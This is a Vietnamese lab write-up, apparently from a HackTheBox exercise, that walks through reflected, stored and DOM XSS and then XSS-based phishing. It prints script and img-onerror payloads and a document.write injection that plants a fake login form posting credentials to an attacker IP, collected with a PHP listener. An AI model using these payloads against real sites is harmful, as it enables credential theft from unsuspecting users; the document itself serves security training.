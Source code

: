 # Reflected XSS

![Screenshot 2025-05-09 012554](https://github.com/user-attachments/assets/a9bf5e3b-80e3-4c0c-9469-858fe8a31364)

![Screenshot 2025-05-09 013154](https://github.com/user-attachments/assets/d315fd9f-8b40-4742-bebb-1673aa5f4f35)

> <script>alert('heloooo')</script>

![Screenshot 2025-05-09 013237](https://github.com/user-attachments/assets/b7cf1b2b-1be1-42be-a64b-8dd5a693aee3)

![image](https://github.com/user-attachments/assets/3cf85edc-c839-4f7d-a543-c4cfa3fcd176)

# Stored XSS cũng giống 

Xuất hiện mỗi lần bạn mở lại trang (mà bạn không cần gửi lại dữ liệu từ input hay URL) 

# DOM XSS

![image](https://github.com/user-attachments/assets/10427616-f046-4fa7-931e-06e663b051d6)

Lần này payload không hoạt động, vì payload được gán thẳng vào innerHTML

![image](https://github.com/user-attachments/assets/82bc8f55-fa28-444a-aaa3-77026b2a06fb)

Có lẻ innerHTML không chạy các thẻ <script> nhưng <img thì được

Ta sẽ gửi một payload như sau 

> <img src="" onerror="alert('aaaa')>

khi ảnh không được tải lên thì sự kiện onerror sẽ thực thi và khi đó

![image](https://github.com/user-attachments/assets/3a98aa17-0013-4485-b1ce-11f96f4475be)

# Phisinggg

![Screenshot 2025-05-09 142539](https://github.com/user-attachments/assets/9523ba51-a53f-4500-adf7-ba65a032a4fc)

Nó cho phép ta nhập vào 1 url hình ảnh vào hiển thị chúng 

![Screenshot 2025-05-09 143254](https://github.com/user-attachments/assets/43d153eb-ee6e-43d7-b98c-2bc5937a1e58)
![Screenshot 2025-05-09 143349](https://github.com/user-attachments/assets/3fd6f1d2-26e7-487e-8cf5-55cab3cdf3ef)

Tiếp theo tôi sẽ tiêm vào một form đăng nhập

![Screenshot 2025-05-09 144552](https://github.com/user-attachments/assets/ce5847b0-92c3-4ec4-9601-3e6b61436cf0)

Tiếp theo tôi chuẩn bị mã XSS thử nghiệm trên biểu mẫu dễ bị tấn công trên, tôi sử dụng hàm trong javascript là document.write() nó có chức năng ghi nội dung trực tiếp ra trang html.

``` document.write('<h3>Please login to continue</h3><form action=http://10.10.15.205><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById('urlform')?.remove()</script><!-- ```

10.10.15.205 sẽ là IP của máy mà chúng ta dùng để lắng nghe thông tin của nạn nhân

Ta được 1 form đăng nhập như này

![image](https://github.com/user-attachments/assets/d656c6e6-0ad3-4f17-a89e-e42d2683fde3)

Bây giờ ta phải làm sao để khi nạn nhân đăng nhập nó sẽ chuyển hướng đến giao diện nhập url ban đầu

![image](https://github.com/user-attachments/assets/d21c5e33-5763-4a31-99db-d3c0c69a97e7)

Ta tạo 1 thư mục tạm vào chèn đoạn mã sao vào file index.php

![image](https://github.com/user-attachments/assets/9f5f9acf-e211-4f7d-9699-4a016774934f)


Bây giờ chúng ta khởi động máy chủ php để lắng nghe, có thể sử dụng thay cho netcat

> sudo php -S 0.0.0.0:80

![image](https://github.com/user-attachments/assets/8b5996ef-2180-47a4-9f3c-7391426002e4)

Ta được thông tin của nạn nhân, Ví dụ nếu trang web hackthebox.com có lỗi tương tự thì ta sẽ có được tài khoảng htb của nạn nhân



















